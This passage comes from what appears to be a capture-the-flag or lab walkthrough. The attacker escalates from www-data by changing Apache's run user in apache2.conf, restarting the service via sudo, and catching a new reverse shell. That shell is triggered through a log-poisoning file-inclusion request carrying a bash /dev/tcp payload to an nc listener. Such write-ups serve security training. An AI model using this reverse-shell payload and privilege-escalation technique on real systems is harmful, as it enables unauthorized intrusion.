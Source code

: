 In the next step we change the following lines of the file `apache2.conf`
```bash
...
# These need to be set in /etc/apache2/envvars
User ${APACHE_RUN_USER}
Group ${APACHE_RUN_GROUP}
...
```

We change these settings to the following values.
```bash
...
# These need to be set in /etc/apache2/envvars
User mahakal
Group mahakal
...
```

Now we restart the `apache2` service as we are allowed to do it via `sudo`.
```bash
www-data@ubuntu:/etc/apache2$ sudo /bin/systemctl restart apache2
```

As soon as we do this our reverse shell gets terminated.  
Lets get a new connect from the server.

### start listener on the attackers machine
```bash
$ nc -lvp 80                                                                                                                                                       
listening on [any] 80 ...
```

### trigger reverse shell
payload: `bash -c 'bash -i >& /dev/tcp/192.168.49.103/80 0>&1'`
```http
GET /console/file.php?file=%2fvar%2flog%2fauth%2elog&c=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.103/80+0>%261' HTTP/1.1
Host: 192.168.103.80
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.72 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
nt-Length: 3
Content-Length: 3
```

### catch connection from target
```bash
$ nc -lvp 80                                                                                                                                                                                                                          4 ⨯
listening on [any] 80 ...
192.168.103.80: inverse host lookup failed: Unknown host
connect to [192.168.49.103] from (UNKNOWN) [192.168.103.80] 42904
bash: cannot set terminal process group (982): Inappropriate ioctl for device
bash: no job control in this shell
mahakal@ubuntu:/var/www/html/console$
```

